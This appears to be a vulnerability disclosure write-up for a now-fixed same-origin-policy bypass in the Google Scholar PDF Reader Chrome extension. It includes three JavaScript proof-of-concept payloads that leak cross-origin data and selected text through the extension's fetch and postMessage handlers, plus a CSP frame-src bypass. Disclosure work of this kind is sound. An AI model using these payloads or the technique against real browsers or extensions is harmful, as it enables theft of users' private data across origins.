```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```

Google Scholar PDF Reader is apparently not an official Google app so was not awarded :(  
Chrome Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>  

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({type: 'fetch', method: 'GET', url: 'https://www.google.com/something.json', id: 1});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf'; document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location = 'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
 let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
 let result = await reader.read();
 console.log(result.value);
}
parent.parent.postMessage({type: 'fetch', url: 'https://services.google.com/example'}, '*');
```

# Leak 3 (Without compromised renderer)

```js
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```
Selected text gets leaked cross-origin.

```js
onmessage=console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario
An attacker controlled website can bypass SOP if one of the follow is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass
Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
